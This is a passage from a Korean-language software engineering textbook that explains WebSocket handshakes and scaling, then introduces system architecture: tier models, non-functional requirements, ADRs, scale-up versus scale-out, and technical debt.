우리가 일상에서 사용하는 카카오톡 웹 버전, 업비트/바이낸스의 실시간 코인 호가창, 구글 닥스의 동시 편집 기능은 어떻게 화면 새로고침 없이 밀리초(ms) 단위로 번쩍이며 최신 데이터를 보여줄 수 있을까요? 전통적인 HTTP의 요청-응답 패러다임만으로는 이와 같은 실시간 양방향 통신을 구현하기에 태생적인 한계가 있었습니다. 이를 해결하기 위해 W3C와 IETF가 표준화한 기술이 바로 **웹소켓(WebSocket, RFC 6455)**입니다.

---

### 13.1 실시간 통신 기법의 눈물겨운 변천사

웹소켓이 등장하기 전, 개발자들은 HTTP 위에서 실시간 효과를 흉내 내기 위해 수많은 편법을 사용했습니다.

```
1. 폴링 (Polling)
   클라이언트: "새 데이터 있나요?" ──> 서버: "없습니다." (1초 후)
   클라이언트: "새 데이터 있나요?" ──> 서버: "없습니다." (1초 후)
   • 문제점: 데이터가 없어도 수백 바이트의 HTTP 헤더 패킷이 낭비되며 서버 부하 급증.

2. 롱 폴링 (Long Polling)
   클라이언트: "새 데이터 있나요?" ──> 서버: (데이터 생길 때까지 연결을 안 끊고 대기...)
   서버: "드디어 생겼습니다! (응답)" ──> 클라이언트: "받았습니다. 그리고 다시 연결 열어둘게요!"
   • 문제점: 데이터가 자주 발생하는 서비스에서는 결국 폴링과 다를 바 없이 잦은 재연결 비용 발생.

3. 웹소켓 (WebSocket)
   클라이언트 <══════════════ [단 하나의 전이중 영구 파이프] ══════════════> 서버
   • 혁신: 연결을 영구히 유지하며, 헤더 오버헤드(단 2바이트) 없이 양방향으로 즉시 데이터 송출!
```

---

### 13.2 WebSocket 연결 수립: HTTP 핸드셰이크와 프로토콜 업그레이드

웹소켓은 완전히 새로운 포트를 열고 시작하는 것이 아닙니다. 방화벽과 프록시를 매끄럽게 통과하기 위해, **처음에는 기존 웹과 똑같이 80(HTTP) 또는 443(HTTPS) 포트로 표준 HTTP 요청을 보내고, 이를 웹소켓으로 승격(Upgrade)시키는 영리한 방식**을 사용합니다.

```mermaid
sequenceDiagram
    autonumber
    actor C as 웹 브라우저
    participant S as 웹소켓 서버

    Note over C,S: [1단계: 프로토콜 승격 핸드셰이크]
    C->>S: GET /chat HTTP/1.1<br/>Upgrade: websocket<br/>Connection: Upgrade<br/>Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==<br/>Sec-WebSocket-Version: 13

    Note over S: Sec-WebSocket-Key에 매직 스트링을 결합하고<br/>SHA-1 해싱 및 Base64 인코딩하여 Accept 키 생성

    S-->>C: HTTP/1.1 101 Switching Protocols<br/>Upgrade: websocket<br/>Connection: Upgrade<br/>Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=

    Note over C,S: [2단계: 전이중(Full-Duplex) 실시간 통신 파이프 연결 완료]

    C->>S: 텍스트 프레임 (채팅 메시지 전송, 오버헤드 2~6바이트)
    S-->>C: 바이너리 프레임 (실시간 주식 호가 데이터 푸시)
    C->>S: Ping (연결 유지 확인 하트비트)
    S-->>C: Pong (생존 응답)
```

#### 101 Switching Protocols의 의미
서버가 `101 Switching Protocols`를 응답하는 순간, TCP 소켓 연결은 그대로 유지된 채 상위 프로토콜이 HTTP에서 **WebSocket 프로토콜(`ws://` 또는 TLS가 적용된 `wss://`)**로 즉시 전환됩니다.

---

### 13.3 WebSocket 프레임 구조와 극단적인 경량성

HTTP 요청은 매번 URL, User-Agent, 쿠키 등 최소 수백 바이트에서 수 킬로바이트의 무거운 헤더를 달고 다닙니다.  
반면 웹소켓 연결이 맺어진 후 오가는 데이터는 **프레임(Frame)** 단위로 전송되며, **최소 헤더 오버헤드가 단 2바이트(Byte)**에 불과합니다. 불필요한 메타데이터 전송이 완전히 사라지므로 대역폭 낭비가 극적으로 줄어듭니다.

- **Opcode**: 전송 데이터 타입 구분 (텍스트: `0x1`, 바이너리: `0x2`, 닫기: `0x8`, Ping: `0x9`, Pong: `0xA`).
- **Masking**: 클라이언트에서 서버로 보낼 때는 보안(캐시 오염 방지)을 위해 페이로드를 4바이트 마스킹 키로 난수화하여 전송합니다.

---

### 13.4 실무 아키텍처: 다중 서버 환경에서 WebSocket 세션 확장

단일 서버 환경에서는 웹소켓 객체를 서버 메모리에 담아두고 브로드캐스팅하면 되지만, 사용자가 수십만 명으로 늘어나 서버가 10대로 증설(Scale-Out)되면 문제가 발생합니다.

```
[사용자 A (1번 서버 접속)] ────(채팅: "안녕하세요")────> [ WAS 1 ]
                                                        │ (어? B는 내 메모리에 없는데?)
[사용자 B (2번 서버 접속)] <──(메시지 도달 실패!)─────── [ WAS 2 ]
```

이를 해결하기 위해 실무에서는 중앙에 **Redis Pub/Sub**이나 **Apache Kafka, RabbitMQ** 같은 초고속 메시지 브로커를 연동합니다.

```
[사용자 A] ──> [ WAS 1 ] ──(Publish: "안녕하세요")──> [ Redis Pub/Sub 채널 ]
                                                            │
                 ┌──────────────────────────────────────────┘ (Broadcast)
                 ▼
             [ WAS 2 ] ──(WebSocket Push)──> [사용자 B]
```

1. 1번 서버는 사용자 A의 메시지를 받아 Redis의 특정 채팅방 토픽(Topic)으로 `Publish`합니다.
2. 해당 토픽을 구독(`Subscribe`)하고 있던 2번 서버가 메시지를 감지하고, 자신에게 웹소켓으로 붙어있는 사용자 B에게 메시지를 즉각 밀어 넣어줍니다.  
이로써 서버 인스턴스가 수백 대로 늘어나도 전 세계 사용자가 지연 없이 실시간 대화를 나눌 수 있게 됩니다.

---

## 맺음말: 네트워크를 이해하는 엔지니어가 만드는 시스템

지금까지 우리는 클라이언트와 서버가 3-Way Handshake를 통해 물리적 선로 위에 가상 회선을 수립하는 순간부터, DNS를 거쳐 목적지를 찾고, 웹 서버와 WAS가 분업하며, 캐시와 고성능 프로토콜로 지연을 줄이고, 브라우저 엔진이 화면을 픽셀로 그려내기까지의 모든 여정을 살펴보았습니다.

네트워크는 눈에 보이지 않는 거대한 추상화의 계층들로 이루어져 있습니다. 하지만 장애가 발생하거나 시스템이 수백만 트래픽의 임계점에 도달했을 때, 성능 병목의 근본 원인을 파헤치고 우아한 해결책을 제시할 수 있는 힘은 결국 **"패킷이 지금 어느 계층에서 어떤 규약으로 흐르고 있는가?"**를 머릿속에 시각화할 수 있는 네트워크 통찰력에서 비롯됩니다. 이 탄탄한 기본기가 여러분을 뛰어난 시스템 아키텍트로 안내할 것입니다.


---

# PART 09. 아키텍처 (System Architecture & Scalability)

> **"소프트웨어 아키텍처는 시스템이 무너지지 않고 비즈니스의 폭발적인 성장을 견뎌내도록 받쳐주는 뼈대이자, 시간이 흘러도 변경하기 가장 어려운 전략적 의사결정의 총체입니다."**  
> 초기 스타트업의 작은 토이 프로젝트는 단 한 대의 컴퓨터로도 완벽하게 동작합니다. 하지만 사용자가 수만 명, 수천만 명으로 늘어나고, 초당 수십만 건의 결제와 트래픽이 쏟아져 들어오면 시스템은 완전히 다른 차원의 도전에 직면합니다.  
> 아무리 코드를 최적화해도 서버의 CPU와 메모리는 한계에 도달하고, 데이터베이스는 병목으로 비명을 지르며, 사소한 버그 하나가 서비스 전체를 일순간에 마비시키기도 합니다.  
> 이번 파트에서는 전통적인 티어(Tier) 아키텍처의 분리부터, 스타벅스 매장을 통해 이해하는 대규모 트래픽 분산 처리 비유, 캐시와 Redis의 전략적 활용, 모놀리식과 MSA의 현실적 트레이드오프, 고가용성을 위한 이중화와 무중단 배포, 단일 관문인 API Gateway, 그리고 시스템 장애를 우아하게 다루는 SRE 관점의 장애 대응 라이프사이클까지, 대규모 분산 시스템 아키텍트가 갖추어야 할 핵심 지식과 실무 인사이트를 깊이 있게 해설합니다.

---

## 01. 서버와 클라이언트 구성
> **1-Tier, 2-Tier(클라이언트-DB), 3-Tier(프레젠테이션-비즈니스-데이터) 아키텍처의 발전과 분리 이유**

컴퓨터 시스템의 역사는 **"어떻게 책임을 나누고, 어디에 데이터를 두며, 어떻게 물리적 부하를 격리할 것인가?"**에 대한 끊임없는 탐구 과정이었습니다. 우리가 브라우저나 앱에서 버튼을 클릭했을 때 일어나는 일련의 과정은 지난 수십 년 동안 거대한 진화를 거쳐 왔습니다.

---

### 1.1 티어(Tier)와 레이어(Layer)의 명확한 구분

소프트웨어 공학에서 흔히 혼용되는 두 개념인 **계층(Layer)**과 **티어(Tier)**는 아키텍처를 설계할 때 명확히 구분해야 합니다.

* **논리적 계층 (Logical Layer)**: 코드와 기능의 구조적인 분리를 의미합니다. 단일 실행 바이너리 내에서도 사용자 인터페이스 계층(UI), 비즈니스 로직 계층(Service), 데이터 접근 계층(DAO/Repository)으로 분리할 수 있습니다. 동일한 프로세스, 동일한 물리 머신 안에서 메모리 호출을 통해 동작합니다.
* **물리적 티어 (Physical Tier)**: 애플리케이션의 구성 요소가 **서로 다른 물리적(또는 가상화된) 하드웨어 장비 및 독립된 네트워크 노드**로 분리되어 구동되는 상태를 의미합니다. 각 티어 간에는 프로세스 간 통신(IPC)이나 네트워크 통신(TCP/IP, HTTP, RPC)이 필수적으로 발생합니다.

```
+-----------------------------------------------------------------------+
| [논리적 계층 (Layer)] vs [물리적 티어 (Tier)]                         |
|                                                                       |
|  [ Layer: 코드 관심사의 분리 ]          [ Tier: 물리적 인프라의 분리 ] |
|  +--------------------------+          +---------+                   |
|  | Presentation Layer (UI)  |          | Tier 1  | (사용자 스마트폰)   |
|  +--------------------------+          +----+----+                   |
|  | Business Logic Layer     |               | (인터넷 / HTTPS)        |
|  +--------------------------+          +----+----+                   |
|  | Data Access Layer        |          | Tier 2  | (클라우드 WAS 인스턴스) |
|  +--------------------------+          +----+----+                   |
|                                             | (전용망 / TCP)          |
|  (동일 머신 내 메모리 함수 호출)       +----+----+                   |
|                                        | Tier 3  | (데이터베이스 서버)   |
|                                        +---------+                   |
+-----------------------------------------------------------------------+
```

---

### 1.2 1-Tier 아키텍처: 모든 것이 하나의 컴퓨터 안에

1-Tier 아키텍처는 화면 표시(Presentation), 연산(Business Logic), 그리고 데이터 저장(Data Storage)이 **단 한 대의 컴퓨터**에서 일괄 처리되는 구조입니다.

```mermaid
flowchart LR
    subgraph SingleMachine["단일 하드웨어 (PC / 메인프레임)"]
        UI["프레젠테이션 (UI)"] --> Logic["비즈니스 로직 (연산)"] --> DB["로컬 파일 / 임베디드 DB (MS Access 등)"]
    end
```

* **동작 방식**: 1980년대 메인프레임 시절이나 초기 개인용 컴퓨터(PC)의 독립형(Standalone) 데스크톱 프로그램(예: Microsoft Access, 로컬 파일 기반 장부 프로그램, 한글/워드 프로세서)이 대표적입니다.
* **장점**:
  1. **극도의 단순성**: 별도의 네트워크 통신이 없어 네트워크 지연(Latency), 패킷 손실, 통신 보안을 고민할 필요가 없습니다.
  2. **빠른 초기 개발**: 인프라 배포 설정이 필요 없고 단일 실행 파일(.exe) 하나로 동작합니다.
* **치명적인 한계**:
  1. **동시성 및 협업 불가**: 데이터가 사용자의 로컬 디스크에 묶여 있으므로 여러 사용자가 동시에 데이터를 읽고 수정하기가 극히 어렵습니다.
  2. **성능 확장의 한계**: 컴퓨터의 하드웨어 스펙(CPU/RAM)을 높이는 스케일업(Scale-up) 외에는 처리량을 늘릴 방법이 없습니다.
  3. **데이터 유실 위험**: 사용자의 PC가 고장 나거나 디스크가 손상되면 영구적인 데이터 손실로 직결됩니다.

---

### 1.3 2-Tier 아키텍처: 클라이언트-서버(C/S)와 팻 클라이언트(Fat Client)

네트워크 기술과 관계형 데이터베이스(RDBMS)의 보급으로 1990년대 클라이언트-서버(Client-Server, C/S) 모델이 대세로 떠올랐습니다. 데이터 저장소를 중앙의 전용 서버 컴퓨터로 분리해 낸 것입니다.

```mermaid
flowchart LR
    subgraph ClientPC["사용자 컴퓨터 (Fat Client)"]
        UI["UI 화면"] --- Biz["비즈니스 로직 (SQL 쿼리 내장)"]
    end

    subgraph Network["LAN / 전용 사설망"]
        ClientPC == "직접 DB 커넥션 (Oracle Net8, ODBC, JDBC)" ==> DBServer
    end

    subgraph DBServer["중앙 데이터베이스 서버"]
        DB["RDBMS (Oracle, MS SQL Server)"]
    end
```

* **동작 방식**: 비주얼 베이직(Visual Basic), 파워빌더(PowerBuilder), 델파이(Delphi) 등으로 개발된 클라이언트 실행 프로그램이 각 사용자의 PC에 설치되고, 프로그램 내부에 데이터베이스 접속 계정(ID/PW)과 비즈니스 로직, 직접적인 SQL 쿼리가 포함되어 있었습니다.
* **팻 클라이언트(Fat Client) 현상**: 클라이언트가 화면 렌더링뿐 아니라 대부분의 연산과 유효성 검증, 비즈니스 계산을 모두 도맡았기에 프로그램 덩치가 매우 무거웠습니다.
* **치명적인 한계**:
  1. **배포의 악몽(Deployment Hell)**: 비즈니스 규칙(예: 세금 계산 공식)이 조금만 바뀌어도 수천, 수만 대의 사용자 PC에 설치된 `.exe` 파일을 재배포해야 했습니다. 사용자가 업데이트를 거부하면 구버전 로직이 DB 데이터를 오염시켰습니다.
  2. **심각한 보안 취약점**: 클라이언트 소프트웨어를 디컴파일(Decompile)하거나 네트워크 패킷을 리버스 엔지니어링하면 DB 접속 주소, 마스터 계정, 테이블 스키마가 고스란히 노출되었습니다.
  3. **데이터베이스 커넥션 고갈**: RDBMS의 커넥션(Connection)은 매우 비싼 자원입니다. 접속자가 1,000명이면 1,000개의 소켓 세션이 DB에 맺어지며 메모리를 잠식하여 DB가 쉽게 다운되었습니다.

---

### 1.4 3-Tier 아키텍처: 모던 웹의 표준 패러다임

2-Tier의 한계를 극복하기 위해, 비즈니스 로직을 클라이언트로부터 완전히 떼어내어 중앙의 독립된 계층인 **애플리케이션 서버(Application Server / WAS)**로 이관한 아키텍처가 바로 **3-Tier 아키텍처**입니다.

```mermaid
flowchart LR
    subgraph Tier1["Tier 1: 프레젠테이션 티어"]
        Browser["웹 브라우저 / 모바일 앱\n(Thin Client)"]
    end

    subgraph Tier2["Tier 2: 비즈니스/애플리케이션 티어"]
        WAS["애플리케이션 서버 (WAS)\n(Spring, Node.js, Django, Go)\n[비즈니스 로직, 보안, DBCP]"]
    end

    subgraph Tier3["Tier 3: 데이터 티어"]
        DB["데이터베이스 (RDBMS / NoSQL)\n(PostgreSQL, MySQL, Oracle)"]
    end

    Tier1 == "HTTP / HTTPS (REST, GraphQL)" ==> Tier2
    Tier2 == "DB 프로토콜 (Connection Pool)" ==> Tier3
```

#### 3-Tier로 분리해야만 했던 필연적 이유 4가지

1. **관심사의 분리(Separation of Concerns)와 유지보수성**
   * 화면 UI가 모바일 앱으로 바뀌든 React 웹으로 바뀌든 백엔드의 핵심 비즈니스 로직은 수정할 필요가 없습니다.
   * 비즈니스 규칙이 변경되어도 사용자의 브라우저나 앱을 강제 재설치시킬 필요 없이 중앙의 WAS만 재배포하면 즉시 모든 클라이언트에 반영됩니다.
2. **철저한 보안 격리와 캡슐화 (Security Isolation)**
   * 클라이언트는 데이터베이스의 IP 주소도, 테이블 스키마도, 비밀번호도 알 수 없습니다.
   * WAS가 프론트엔드의 비정상 요청(SQL Injection, 위변조)을 1차로 필터링하고 검증(Sanitize)하며, DB는 외부 인터넷에 노출되지 않는 사설 서브넷(Private Subnet)에 안전하게 숨겨집니다.
3. **데이터베이스 커넥션 풀(DBCP)을 통한 자원 최적화**
   * 사용자 10만 명이 접속하더라도 10만 개의 커넥션을 DB에 맺지 않습니다.
   * WAS가 미리 최적화된 수(예: 30~50개)의 DB 커넥션을 풀(Pool)에 생성해 두고, 요청을 처리할 때만 잠깐 빌려 쓴 뒤 반납합니다. 데이터베이스의 CPU와 메모리 오버헤드가 극적으로 감소합니다.
4. **독립적인 스케일아웃(Scale-out) 지원**
   * 연산량이 몰리는 백엔드 애플리케이션 계층(WAS)은 무상태(Stateless)로 설계되어 서버를 1대에서 10대, 100대로 자유롭게 늘릴 수 있습니다. 각 티어의 병목 특성에 맞추어 인프라 자원을 유연하게 확장할 수 있습니다.

#### 1-Tier vs 2-Tier vs 3-Tier 종합 비교

| 비교 항목 | 1-Tier 아키텍처 | 2-Tier (Client-Server) | 3-Tier 아키텍처 |
| :--- | :--- | :--- | :--- |
| **물리 구성** | 단일 PC/메인프레임 | 클라이언트 PC + DB 서버 | 클라이언트 + WAS + DB 서버 |
| **클라이언트 성격** | 일체형 독립 프로그램 | 팻 클라이언트 (Fat Client) | 씬 클라이언트 (Thin Client) |
| **비즈니스 로직 위치** | 클라이언트 내부 | 클라이언트 내부 (SQL 내장) | **중앙 WAS (서버 내부)** |
| **보안성** | 하드웨어 분실 시 즉시 노출 | 취약 (DB 계정 탈취 위험) | **매우 높음 (DB 사설망 격리)** |
| **배포 및 업데이트** | PC마다 설치/갱신 | PC마다 배포 필요 (배포 지옥) | **중앙 서버만 무중단 배포** |
| **DB 커넥션 관리** | 불필요 (로컬 파일) | 클라이언트당 1개 (자원 낭비) | **DBCP 커넥션 풀 재사용** |
| **확장성(Scalability)** | 불가 (스케일업만 가능) | DB 스케일업에 의존 | **WAS 수평 확장(Scale-out) 용이** |

---

## 02. 시스템 아키텍처란 무엇인가요?
> **시스템의 청사진, 구조와 인터페이스, 비기능 요구사항(가용성, 확장성, 보안, 성능, 복구성)을 만족시키기 위한 의사결정의 집합**

세계적인 소프트웨어 석학 마틴 파울러(Martin Fowler)와 랄프 존슨(Ralph Johnson)은 아키텍처를 다음과 같이 정의했습니다.

> *"아키텍처란 개발자가 프로젝트 초기에 올바르게 결정하기를 간절히 바라는, 나중에 바꾸기 가장 어려운 결정들의 집합이다."*

즉, 시스템 아키텍처는 단순한 코드 작성 기법이 아닙니다. **"이 시스템을 이루는 구성 요소(컴포넌트)들은 무엇이고, 그들은 어떤 책임을 가지며, 서로 어떤 인터페이스로 신호를 주고받을 것인가?"**를 규정하는 전체 시스템의 **거대한 청사진(Blueprint)**입니다.

---

### 2.1 기능적 요구사항(FR) vs 비기능적 요구사항(NFR)

아키텍처 설계가 어려운 이유는 고객이 말하는 요구사항의 이면에 숨겨진 본질을 만족시켜야 하기 때문입니다.

```mermaid
flowchart TD
    Req["시스템 요구사항 (Requirements)"] --> FR["기능적 요구사항 (Functional Requirements)\n'시스템이 무엇(WHAT)을 하는가?'"]
    Req --> NFR["비기능적 요구사항 (Non-Functional Requirements)\n'시스템이 어떻게(HOW WELL) 동작하는가?'"]

    FR --> FR1["장바구니 담기"]
    FR --> FR2["신용카드 결제"]
    FR --> FR3["주문 내역 조회"]

    NFR --> NFR1["가용성: 99.99% 무중단 운영"]
    NFR --> NFR2["성능: 동시 10만 명 결제 시 200ms 응답"]
    NFR --> NFR3["확장성: 블랙프라이데이 10배 증설 가능"]
    NFR --> NFR4["보안: 개인정보 암호화 및 무단 탈취 방지"]
```

주니어 개발자는 주로 **기능적 요구사항(WHAT)**에 집중합니다. 화면에 결제 버튼이 뜨고, 결제 승인 API가 호출되어 DB에 행(Row) 하나가 추가되면 개발이 끝났다고 생각합니다.  
하지만 아키텍트는 **비기능적 요구사항(HOW WELL)**을 책임집니다. 결제 버튼을 누르는 순간 데이터센터 전원이 꺼지면 어떻게 될 것인가? 결제 트래픽이 100배 폭증해도 시스템이 다운되지 않고 버틸 수 있는가? 해커가 트래픽을 가로채도 고객의 카드 번호는 안전한가? 이것이 바로 아키텍처의 영역입니다.

---

### 2.2 아키텍트가 반드시 사수해야 할 5대 비기능 요구사항

#### 1. 가용성 (Availability)
시스템이 장애 없이 정상적으로 서비스를 제공하는 시간의 비율을 의미합니다. 흔히 **'Nine(9)'의 개수**로 표현합니다.
* **SLA(Service Level Agreement) 99.9% (Three Nines)**: 1년에 약 8.76시간 다운타임 허용
* **SLA 99.99% (Four Nines)**: 1년에 약 52.6분 다운타임 허용
* **SLA 99.999% (Five Nines)**: 1년에 약 5.26분 다운타임 허용 (금융, 미션 크리티컬 인프라)
* 고가용성을 달성하기 위해서는 모든 구성 요소의 단일 장애점(SPOF)을 제거하고 이중화(Redundancy) 및 자동 페일오버(Failover) 체계를 구축해야 합니다.

#### 2. 확장성 (Scalability)
작업량(Workload)이나 트래픽이 증가했을 때, 하드웨어 자원을 추가 투입함으로써 성능 저하 없이 처리량을 비례적으로 증가시킬 수 있는 시스템의 구조적 수용력입니다. 상태를 보관하지 않는 무상태(Stateless) 설계가 확장성의 핵심 토대입니다.

#### 3. 성능 (Performance)
주어진 시간 동안 시스템이 얼마나 빠르고 효율적으로 요청을 처리하는가를 측정합니다.
* **지연 시간 (Latency / Response Time)**: 클라이언트가 요청을 보낸 뒤 응답을 받기까지 걸리는 시간입니다. 평균(Mean)보다는 극단적인 꼬리 지연을 반영하는 **p95(하위 95%), p99(하위 99%) 레이턴시**가 핵심 지표입니다.
* **처리량 (Throughput)**: 단위 시간당 처리할 수 있는 작업의 양으로 **TPS(Transactions Per Second)** 또는 **QPS(Queries Per Second)**로 나타냅니다.

#### 4. 보안 (Security)
정보 보안의 3대 요소인 **CIA Triad**를 보장해야 합니다.
* **기밀성 (Confidentiality)**: 인가되지 않은 주체는 데이터를 볼 수 없음 (TLS 전송 암호화, DB 컬럼 암호화).
* **무결성 (Integrity)**: 인가되지 않은 주체에 의해 데이터가 위조되거나 변조되지 않음 (디지털 서명, 체크섬).
* **가용성 (Availability)**: 인가된 사용자가 원할 때 언제든 자원에 접근할 수 있음 (DDoS 방어, Rate Limiting).

#### 5. 복구성 및 탄력성 (Resilience & Recoverability)
재난이나 천재지변, 소프트웨어 치명적 버그가 발생했을 때 시스템이 스스로 회복하거나 정상 상태로 복구할 수 있는 역량입니다.
* **RPO (Recovery Point Objective, 복구 목표 시점)**: 장애 발생 시 허용 가능한 최대 데이터 유실 허용 범위 (예: RPO = 5분이면 최대 5분 전 데이터까지 복구되어야 함).
* **RTO (Recovery Time Objective, 복구 목표 시간)**: 장애 발생 시 서비스를 정상화하는 데까지 허용되는 최대 소요 시간 (예: RTO = 1시간이면 1시간 내에 서비스가 다시 켜져야 함).

---

### 2.3 아키텍처 의사결정 기록 (ADR: Architecture Decision Record)

아키텍처는 정답이 없는 **트레이드오프(Trade-off)**의 학문입니다. 모든 기술적 선택에는 대가가 따릅니다. 따라서 현업의 우수한 엔지니어링 조직은 중요한 아키텍처 변경이 있을 때마다 **ADR(Architecture Decision Record)**을 작성하여 문서화합니다.

```markdown
# ADR-042: 주문 및 결제 시스템의 이벤트 브로커로 Apache Kafka 도입

## 1. 문맥과 문제 정의 (Context)
- 현재 동기식 HTTP REST 호출 구조로 인해 결제 대행사(PG) 지연 시 주문 서버 스레드가 고갈됨.
- 주문 완료 시 배송, 알림, 정산 시스템으로의 결합도가 높아 단일 장애 전파 발생.

## 2. 고려한 대안 (Considered Options)
1. 대안 A: RabbitMQ (AMQP 기반 메시징)
2. 대안 B: Apache Kafka (분산 이벤트 로그 스트리밍)
3. 대안 C: AWS SQS + SNS 조합

## 3. 결정 내용 (Decision)
- **Apache Kafka**를 채택하기로 결정함.
- 이유: 초당 10만 건 이상의 대용량 이벤트 처리 필요, 이벤트 영속성(Replay) 보장 필요, 향후 데이터 파이프라인(Spark)과의 연동성 고려.

## 4. 결과 및 트레이드오프 (Consequences)
- **긍정적 효과**: 주문 서버와 다운스트림 서비스 간 완전한 비동기 디커플링 달성. 트래픽 버퍼링 가능.
- **감당해야 할 대가 (부정적 효과)**: 운영 복잡도 증가(Zookeeper/KRaft 관리, 파티션 리밸런싱 모니터링 필요), 최종 일관성(Eventual Consistency) 처리를 위한 비즈니스 예외 로직 추가 필요.
```

---

## 03. 아키텍처를 잘 설계해야 하는 이유는 무엇인가요?
> **초기 개발 속도 vs 장기적 유지보수성, 스케일업(Scale-up) vs 스케일아웃(Scale-out) 대응, 기술 부채 최소화**

개발 초기 단계에서는 아키텍처의 중요성을 체감하기 어렵습니다. 코드를 아무렇게나 작성하고, DB에 인덱스 하나 없이 뷰와 컨트롤러를 한 파일에 욱여넣어도 사용자가 10명일 때는 눈 깜짝할 사이에 동작하기 때문입니다.  
하지만 서비스가 성공하여 사용자가 유입되기 시작하면, 초기의 부실한 아키텍처는 기업의 생존을 위협하는 치명적인 독이 되어 돌아옵니다.

---

### 3.1 초기 개발 속도 vs 장기적 유지보수성 (설계의 비용 곡선)

소프트웨어 공학에는 유명한 **설계-속도 트레이드오프 곡선**이 존재합니다.

```
생산성 /
기능 개발 속도
  ^
  |        [ 훌륭한 아키텍처: 시간이 지나도 일정한 생산성 유지 ]
  |                 /----------------------------------------
  |                /
  |              /
  |             /
  |            /
  |           /
  |          /
  |         /
  |        \/
  |         \
  |          \
  |           \----------------- [ 나쁜 아키텍처: 기술 부채로 인한 급격한 생산성 추락 ]
  +------------------------------------------------------------> 프로젝트 기간 (시간)
```

1. **설계 없는 난개발의 결말**:
   * 프로젝트 시작 후 1~2개월은 프레임워크 규칙도, 레이어 분리도 없이 코딩하므로 기능이 매우 빠르게 출시됩니다.
   * 하지만 6개월, 1년이 지나면 코드 간 결합도(Coupling)가 극에 달합니다. 결제 로직을 고쳤는데 로그인 화면이 깨지고, 사소한 필드 하나를 추가하는 데 3주가 걸립니다. 마침내 버그 수정 속도가 신규 기능 개발 속도를 앞지르는 **개발 마비 상태(Feature Freeze)**에 봉착합니다.
2. **견고한 아키텍처의 가치**:
   * 초기에는 인터페이스를 정의하고, 도메인 경계를 나누며, 인프라를 분리하느라 첫 기능이 나오기까지 시간이 조금 더 걸립니다.
   * 하지만 시스템의 경계가 명확하므로 새로운 팀원이 합류해도 격리된 모듈만 파악하면 됩니다. 트래픽이 10배 늘어나도 아키텍처의 뼈대를 갈아엎지 않고 모듈 단위로 확장할 수 있습니다.

---

### 3.2 스케일업(Scale-up) vs 스케일아웃(Scale-out) 대응

트래픽이 폭증할 때 시스템을 확장하는 방법은 크게 두 가지가 있습니다. 시스템 아키텍처가 어떻게 설계되어 있느냐에 따라 우리가 선택할 수 있는 경로가 완전히 달라집니다.

```mermaid
flowchart TD
    subgraph ScaleUp["스케일업 (Scale-up: 수직 확장)"]
        ServerOld["기존 서버\n4 Core / 16GB RAM"] -- "고가의 대형 장비로 교체" --> ServerNew["거대 서버\n64 Core / 256GB RAM"]
    end

    subgraph ScaleOut["스케일아웃 (Scale-out: 수평 확장)"]
        LB["로드 밸런서 (L4/L7)"]
        LB --> Node1["서버 1 (4 Core)"]
        LB --> Node2["서버 2 (4 Core)"]
        LB --> Node3["서버 3 (4 Core)"]
        LB --> NodeN["서버 N ... (탄력적 증설)"]
    end
```

#### 스케일업(Scale-up, 수직 확장)
* **개념**: 단일 서버의 하드웨어 부품을 더 높은 사양(더 빠른 CPU 클럭, 더 많은 코어, 테라바이트급 메모리)으로 교체하거나 증설하는 방식입니다.
* **장점**: 
  1. 아키텍처나 코드를 수정할 필요가 거의 없습니다.
  2. 분산 네트워크 통신이나 데이터 일관성(트랜잭션) 문제를 고민할 필요가 없습니다.
* **치명적인 한계**:
  1. **하드웨어의 물리적 한계벽**: CPU 소켓 수와 마더보드가 지원하는 메모리 용량에는 한계가 있습니다.
  2. **기하급수적인 비용 증가**: 스펙이 2배 좋아질 때 서버 가격은 5배, 10배로 폭등합니다.
  3. **단일 장애점(SPOF)의 유지**: 아무리 값비싼 슈퍼컴퓨터라도 메인보드가 타버리면 전체 시스템이 멈춥니다. 장비 교체 시 필연적으로 다운타임이 발생합니다.

#### 스케일아웃(Scale-out, 수평 확장)
* **개념**: 비슷한 사양의 저렴한 범용(Commodity) 서버 여러 대를 병렬로 추가하여 부하를 분산하는 방식입니다.
* **장점**:
  1. **이론상 무한한 확장성**: 트래픽이 100배로 뛰면 서버를 100대 띄우면 됩니다.
  2. **뛰어난 비용 효율성**: 고가의 특수 장비 대신 클라우드 가상 인스턴스(AWS EC2 등)를 필요한 만큼만 띄워 쓸 수 있습니다.
  3. **고가용성(HA)**: 서버 10대 중 2대가 고장 나도 로드 밸런서가 나머지 8대로 트래픽을 넘기면 되므로 서비스가 중단되지 않습니다.
* **아키텍처적 전제 조건 (무상태성, Statelessness)**:
  * **"아키텍처가 뒷받침되지 않으면 스케일아웃은 불가능합니다."**
  * 만약 서버 로컬 메모리에 사용자의 세션 정보(로그인 상태)나 업로드된 파일을 직접 저장하고 있다면(Stateful), 사용자의 요청이 1번 서버로 갔다가 2번 서버로 가는 순간 로그인이 풀려버립니다.
  * 따라서 애플리케이션 서버는 어떠한 클라이언트 상태도 메모리에 두지 않는 **Stateless** 구조로 설계하고, 세션은 Redis로, 파일은 S3 같은 공용 객체 저장소로 완전히 외주화해야만 스케일아웃이 가능해집니다.

#### 스케일업 vs 스케일아웃 상세 비교

| 항목 | 스케일업 (Scale-up) | 스케일아웃 (Scale-out) |
| :--- | :--- | :--- |
| **확장 방식** | 기존 장비의 부품 교체/사양 상향 | 동일/유사 사양의 서버 인스턴스 대수 추가 |
| **적합한 계층** | 관계형 데이터베이스(RDBMS의 전통적 방식) | 웹 서버, WAS, 컨테이너, 캐시 클러스터 |
| **확장 한계** | 하드웨어 스펙 한계 존재 (유한함) | 아키텍처 설계에 따라 거의 무한 확장 가능 |
| **비용 증가 추이** | 지수 함수적 증가 (매우 비쌈) | 선형적(Linear) 증가 (비용 효율적) |
| **장애 복원력** | 서버 다운 시 서비스 전체 마비 (SPOF) | 일부 노드 장애 시에도 무중단 서비스 (HA) |
| **아키텍처 복잡도** | 낮음 (기존 코드 유지 가능) | 높음 (로드 밸런싱, 무상태 설계, 동기화 필요) |
| **확장 시 다운타임** | 부품 교체 및 재부팅 시 작업 중단 발생 | 무중단 동적 추가(Auto Scaling) 가능 |

---

### 3.3 기술 부채(Technical Debt)의 복리 이자

워드 커닝햄(Ward Cunningham)이 명명한 **기술 부채**는 금융 부채와 소름 돋을 정도로 똑같이 작동합니다.
* 비즈니스 일정을 맞추기 위해 타협하고 대충 작성한 아키텍처는 일종의 '대출'입니다. 출시 속도를 앞당길 수 있습니다.
